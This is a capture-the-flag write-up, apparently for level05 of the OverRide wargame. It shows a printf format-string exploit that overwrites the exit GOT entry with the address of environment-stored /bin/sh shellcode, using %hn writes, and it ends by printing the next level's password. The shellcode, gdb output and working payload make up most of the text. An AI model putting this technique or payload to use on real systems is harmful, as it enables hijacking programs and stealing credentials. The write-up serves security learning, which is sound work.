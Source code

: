 We decompiled the code with hex-rays.

this line convert uppercase into lowercase :
if ( s[i] > 64 && s[i] <= 90 )
	s[i] ^= 0x20u; // 0x20 = 32

We have a vulnerability of printf
printf(s);

And we have an exit function called :
exit(0);
So we can use the got entry of exit to redirect the execution to our shellcode.

(gdb) run
Starting program: /home/users/level05/level05
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6bf 0xffffd6be (nil) 0xffffffff 0xffffd744 (nil) 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 [Inferior 1 (process 1609) exited normally]

(gdb) run
Starting program: /home/users/level05/level05
BBBB %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
bbbb 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6bf 0xffffd6be (nil) 0xffffffff 0xffffd744 (nil) 0x62626262 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 [Inferior 1 (process 1610) exited normally]
(gdb) 

We recognize 0x61616161 and 0x62626262 !
10th block of memory.

We want to find the address of exit and put a shellcode here (Got) :

(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb) p exit
$1 = {<text variable, no debug info>} 0x8048370 <exit@plt>
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0			--> got entry of the function exit
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.

Now like in level1 we can export in the environment variables our shellcode to do /bin/sh.

export SHELLCODEINJECTION=$(python -c 'print "\x90"*128 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

Find the address of our env variable SHELLCODEINJECTION :

level05@OverRide:~$ gdb ./level05 
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) run
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/30s *((char **)environ)
[...]
0xffffde6e:	 "LINES=26"
0xffffde77:	 "SHELLCODEINJECTION=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\231Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffdf23:	 "HOME=/home/users/level05"
0xffffdf3c:	 "SHLVL=1"
[...]

We can see our shellcode at the address 0xffffde77.

Perfect now we remember in Rainfall we can use %n to write the number of characters written by printf into the address that we want (operator to count the number of characters written by printf and write it in the address). (level03 of Rainfall).
We also remember that in the level4 of Rainfall that we can specifies a format specifier that controls the width of the output. (for example %16930112x)

So with all of these informations we can write our exploit :

1) Convert the address of exit in little endian (0x80497e0) : \xe0\x97\x04\x08
2) Convert the address of our shellcode in decimal : 0xffffde77 = 4294958711
3) Write the exploit :
(python -c 'print "\xe0\x97\x04\x08" + "%4294958711x10$n"' ; cat) | ./level05

--> don t work because 4294958711 to big for integer in printf.

1) Split the address of exit in two part 
So we are going to do this in two steps :
Write half of the address of our shellcode in : 0x80497e0
Write the other half of the address of our shellcode in : 0x80497e2
>>> 0x80497e0 + 2			--> We add 2 bytes
134518754
>>> hex(134518754)
'0x80497e2'

Here we are going to write 2 bytes in the address 0x80497e0 and 2 bytes in the address 0x80497e2.
So that s why we add 2 bytes to the address of our shellcode.

2) Split the address of our shellcode in two part, and convert it in decimal :

0xffffde77 --> address of our shellcode

de77 (hex) --> 56951 (dec)
56951 - 8  (Address already written)
= 56943

ffff  (hex) --> 65535 (dec)
65535 - 56951 (All characters written before)
= 8584

3) Using the good format specifier :
We are going to use the format specifier %hn to write on two bytes :
$hn means to not write an integer (4-byte usually), but only a short value (usually 2 bytes) at the given address.

4) Write the payload :
	
(AddressOfExit) + (AddressOfExit+2bytes) + (56951 - 8 ( 8 is the number of bytes already written) = 56943) + 65535 - 56951 = 8584

(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56943x%10$hn" + "%8584x%11$hn"' ; cat) | ./level05
				   ----------------     ----------------
				   		%10					%11

%56943x%10$hn --> will write the first two bytes of the address of the exit
%8584x%11$hn --> will write the last two bytes of the address of the exit

(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56943x%10$hn" + "%8584x%11$hn"' ; cat) | ./level05
whoami
level06
cat /home/users/level06/.pass       
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq